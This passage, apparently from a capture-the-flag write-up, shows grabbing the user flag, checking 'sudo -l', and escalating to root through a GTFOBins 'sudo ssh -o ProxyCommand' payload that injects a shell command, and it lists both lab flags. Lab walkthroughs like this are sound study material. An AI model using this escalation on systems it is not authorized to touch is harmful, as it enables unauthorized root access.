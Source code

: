 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546205656/592c29cf-fbf0-4738-b93f-b0791c3c6b05.png align="center")

let's grab our user.txt

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546219252/d145f38d-7591-413e-966f-28cdf5ae211a.png align="center")

Flag: **001e788a9504cc6e79d0b70cabecceba**

Now let's go for the root flag

```bash
sudo -l
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546231819/b00ea420-5464-4a29-9dc1-fb950875d2bb.png align="center")

Lmao! Let's go to GTFobins

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546268978/9b8f0382-627d-4c01-9848-d3f32632b760.png align="center")

let's use the proxy command option payload

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546457746/bdacea98-10ee-4f3f-8fae-a03b7e953148.png align="center")

Let's grab the root flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546465980/ce2d7b39-d8cf-4697-9f44-aeeb70411a29.png align="center")

Flag: **af9a86cc816d3b359ff652e0a67602c4**

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709547184570/fe5aa7d3-3365-4359-9172-dfbdeedc3374.jpeg align="center")